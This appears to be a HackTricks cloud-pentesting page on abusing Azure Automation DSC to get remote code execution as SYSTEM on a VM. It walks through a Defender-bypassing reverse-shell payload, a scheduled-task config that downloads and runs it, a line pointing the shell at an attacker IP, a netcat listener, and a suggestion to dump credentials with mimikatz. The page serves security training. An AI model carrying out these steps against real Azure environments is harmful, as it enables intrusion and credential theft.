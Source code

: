 # Az - State Configuration RCE

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

**This post was copied from** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Remote Server (C2) Infrastructure Preparation <a href="#f0fa" id="f0fa"></a>

I will be hosting a stripped-down version of the Nishang Invoke-PowerShellTcp.ps1 payload from the remote server “40.84.7.74”, which is the Kali box. The payload name will be “RevPS.ps1”. To prevent the Nishang script getting deleted by Windows Defender for any reason (maybe you’d rather drop the file to disk) I have a lightweight version here that you can use which will bypass Defender: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). This will be hosted by a simple Python Simple Server on the Kali box.

### Step 1 — Create Files <a href="#89de" id="89de"></a>

We’ll need to create another DSC configuration file. A template can be downloaded here: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). This config file will use the same file-write function that we previously used. This time, the contents include code to download and execute a payload from our remote server. Also, we’re using a scheduled-task function available from the _ComputerManagementDsc_ module. The scheduled-task function will be the key role in execution and providing us with SYSTEM privileges later on.

We’ll also download a script which will be used to publish our configuration to the VM. This is located here: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

These files will serve as a template. **You’ll need to fill in the variable names and parameters with what you’re using**. This includes the resource names, file paths, and the external server/payload names that you’re using. Please refer to the comments in the code.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Step 2 — Zip Configuration File <a href="#c2c2" id="c2c2"></a>

With our two files created, we’ll zip the **‘reverse\_shell\_config.ps1’** file so it can be sent to the Storage Account

```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```

<figure><img src="../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

### Step 3 — Set Storage Context & Upload <a href="#bed9" id="bed9"></a>

Again, we’ll setup the context of our Storage Account which I’ve already done. I already have a container named ‘**azure-pentes**t’ so this is where I’ll be publishing mine:

```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```

<figure><img src="../../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

### Step 4 — Prep Kali Box <a href="#20fb" id="20fb"></a>

In our Kali box, we can simply _wget_ our PowerShell payload. The raw reverse-shell script is located here: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).

```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```

<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

We need to edit the reverse-shell script by adding our parameters in, so the Windows VM knows where to connect to once it’s executed. In my case I add following:

```
RevPShell -Reverse 40.84.7.73 443
```

<figure><img src="../../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

### Step 5 — Publish Configuration File <a href="#9ad6" id="9ad6"></a>

Now we’ll run our configuration file. I have mine setup to be published to the Desktop for a better visual, however it can be published just about anywhere. After a couple of minutes, we’ll see that the reverse-shell script has been published!

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Step 6 — Host Payload and Setup Listener <a href="#c55f" id="c55f"></a>

Once we publish the configuration, we can concurrently start a Python SimpleHTTPServer over port 80 to host the payload, along with a netcat listener in order to catch the connection:

```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```

We see that the scheduled task has run and our payload was retrieved and executed in memory with **SYSTEM** level privileges!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Wrapping Up <a href="#1ec2" id="1ec2"></a>

This now opens the door for many possibilities. Since we have a shell running as **SYSTEM,** we can dump credentials with mimikatz (potentially risky depending on how mature the EDR is for cloud resources). If you dump creds , there's a good chance that these can be reused elsewhere across different resources. Lastly, a big takeaway is that instead of limiting this to one VM, you now have the ability to potentially apply this configuration across multiple VM’s.

On that note, this concludes our Azure Automation DSC adventures! I hope you had fun, learned a lot and continue to expand with your own creativity.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
